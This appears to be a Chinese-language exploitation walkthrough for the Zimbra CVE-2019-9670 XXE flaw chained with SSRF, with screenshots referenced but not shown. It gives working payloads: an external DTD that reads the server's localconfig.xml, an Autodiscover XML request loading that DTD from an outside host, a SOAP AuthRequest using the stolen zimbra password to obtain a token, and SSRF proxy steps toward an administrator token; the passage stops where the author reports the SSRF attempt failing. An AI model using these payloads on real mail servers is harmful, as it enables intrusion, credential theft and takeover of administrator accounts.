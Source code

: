![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKx0tCxWmknNiavUgxnXFAhA3F7kCT3OY3ico64cky6TzjRPZg6xNLe5znQ/640?wx_fmt=png)

读取到了 /etc/passwd 文件代表了具有 CVE-2019-9670 XXE 漏洞。接着需要构造 payload 来读取 zimbra 的配文件 localconfig.xml。由于 localconfig.xml 为 XML 文件，需要加上 CDATA 标签才能作为文本读取，由于 XXE 不能内部实体进行拼接，所以此处需要使用外部 dtd。dtd 内容：

```
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<!\[CDATA\[">
<!ENTITY % end "\]\]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

接着再次使用刚刚的包请求 XML 来进行 XXE 攻击。

```
<!DOCTYPE Autodiscover \[
        <!ENTITY % dtd SYSTEM "http://地址/dtd">
        %dtd;
        %all;
        \]>
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxeeaiaCY1UTHfjB67O7X2s3Gic8QZBkHSiaU9gg1zq7mN6LzIUtjv9NU8w/640?wx_fmt=png)

利用已经得到的密码获取低权限的 token，低权限的 token 可以通过 soap 接口发送 AuthRequest 进行获取。访问到  /service/soap 或 / service/admin/soap 接着进行 抓包并且修改为 POST 模式。还要修改 Content-Type: application/xml 。XML 的内容如下：

```
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
   <soap:Header>
       <context xmlns="urn:zimbra">
           <userAgent />
       </context>
   </soap:Header>
   <soap:Body>
     <AuthRequest xmlns="urn:zimbraAccount">
        <account by="adminName">zimbra</account>
        <password>上一步得到密码</password>
     </AuthRequest>
   </soap:Body>
</soap:Envelope>
```

接着发送数据包过去，这里他就返回回来一个低权限的 Token 了。这个 Token 需要保存，等下会用到。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxclJIO1LQ0BN4pRiaiabwhajKRy0z27OUWGpEPBQBf3fqCyTd6nHWa2Sw/640?wx_fmt=png)

拿到低权限的 Token 之后可以通过 SSRF 漏洞获取 proxy 接口，访问 admin 的 soap 接口来获取到高权限的 Token，访问 URL:/service/proxy?target=https://127.0.0.1:7071/service/admin/soap ，接着进行 抓包，获取到数据包之后修改 POST 模式。这一步需要把上一步获取到的低权限的 token 添加到 cookie 中，将 xmlns="urn:zimbraAccount" 修改为 xmlns="urn:zimbraAdmin"，并且需要在 Host 头中加入端口 7070，URL 中 SSRF 访问的 target 需要使用 https 协议。但是这里通过 SSRF 失败了，通过 / service/admin/soap 获取高权限 token
